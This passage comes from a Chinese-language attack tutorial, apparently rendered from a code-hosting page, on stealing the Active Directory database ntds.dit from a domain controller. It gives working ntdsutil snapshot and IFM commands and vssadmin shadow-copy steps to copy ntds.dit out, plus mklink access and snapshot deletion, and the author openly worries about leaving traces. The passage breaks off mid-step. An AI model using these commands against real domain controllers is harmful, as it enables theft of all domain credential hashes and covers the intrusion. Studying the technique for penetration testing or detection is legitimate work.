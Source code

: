 4.取消挂载并删除快照

```plaintext
// 取消挂载
ntdsutil snapshot "unmount {GUID}" quit quit

// 删除快照
ntdsutil snapshot "del {GUID}" quit quit
```

一键操作，自动挂载、创建快照、取消挂载、复制数据文件到 C:\\datas 目录中，目录不存在会自动创建。*但是不知道会不会自动删除快照，万一没删除留下痕迹呢？*

```plaintext
ntdsutil "activate instance ntds" ifm create full C:\datas quit quit
```

```plaintext
NTDSUTIL "Activate Instance NTDS" "IFM" "Create Full C:\datas" "q" "q"
```

###### VssAdmin 获取数据库

也是默认域控自带软件。Windows 11 H2 中也存在。

1.查询已有快照

```plaintext
vssadmin list shadows
```

2.给 C 盘系统盘创建快照。默认 C 盘不是系统盘需要具体更换盘符。

```plaintext
vssadmin create shadow /for=C:
```

3.获取 Shadow Copy Volume Name 和 Shadow Copy ID

```plaintext
Shadow Copy ID: <XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX>
Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy10
```

4.复制快照内 \\Windows\\NTDS\\ntds.dit 数据库

```plaintext
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy10\Windows\NTDS\ntds.dit C:\ntds.dit
```

或者管理员权限创建快捷方式访问。

```plaintext
// 创建将快照创建为 C:\tmpdata 快捷方式
mklink /d C:\tmpdata \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy10

// 删除快捷方式
rd C:\tmpdata
```

5.删除快照

根据盘符删除
